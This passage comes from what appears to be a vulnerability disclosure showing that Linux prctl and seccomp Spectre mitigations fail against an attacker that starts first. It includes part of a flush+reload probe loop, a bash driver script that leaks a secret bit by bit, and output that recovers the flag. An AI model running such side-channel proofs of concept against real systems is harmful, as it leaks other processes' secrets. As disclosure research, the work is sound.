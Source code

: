         //Allow for victim to execute and misspredict to spectre_gadget
        usleep(1);

        //probe the 1-bit flush+reload side channel
        if (probe((char *)&sharedmem[2000]) < 0x90)
        {
            printf("+");
        }
    }
}
```

Since the victim receives an argument that can be used to choose the bit to be leaked through the side channel, we can execute the victim process multiple times while the attacker is executing:

```
taskset -c 0 ./attacker >> result.txt &

for i in {0..144}
do
    echo "Leaking bit $i... "
    echo -e -n "Leaking bit $i: " >> result.txt
    sleep .01
    for j in {0..10}
    do
        taskset -c 0 ./victim $i >/dev/null
    done

    echo "" >> result.txt
done

python3 parseResult.py 

make clean
echo -e "killing attacker"
kill -9 $(pidof attacker)
```

This leaves the following text file:
```
Leaking bit 0: +++++++++++
Leaking bit 1: 
Leaking bit 2: 
Leaking bit 3: 
Leaking bit 4: 
Leaking bit 5: 
Leaking bit 6: ++++++++++
Leaking bit 7: 
Leaking bit 8: ++++++++
[...]
```

Note that bit 0 and 6 are 1, therefore the first character must be 0x41(A). Parsing the file with a simple Python script shows:```The secret leaked is: b'Asuper_secret_flag' ```which is the exact content present in ```secret.txt``` used by the victim.
Changing the prctl call for seccomp to ```syscall(SYS_seccomp,SECCOMP_SET_MODE_STRICT,0,0);``` after loading the secret doesn't prevent the attack. This is expected since internally both use the same ```ib_prctl_set``` function to implement the mitigation.


### Further Analysis
The current implementation of the prctl syscall for speculative control fails to protect the user against attackers executing before the mitigation. The ```seccomp``` mitigation also fails in this scenario.
```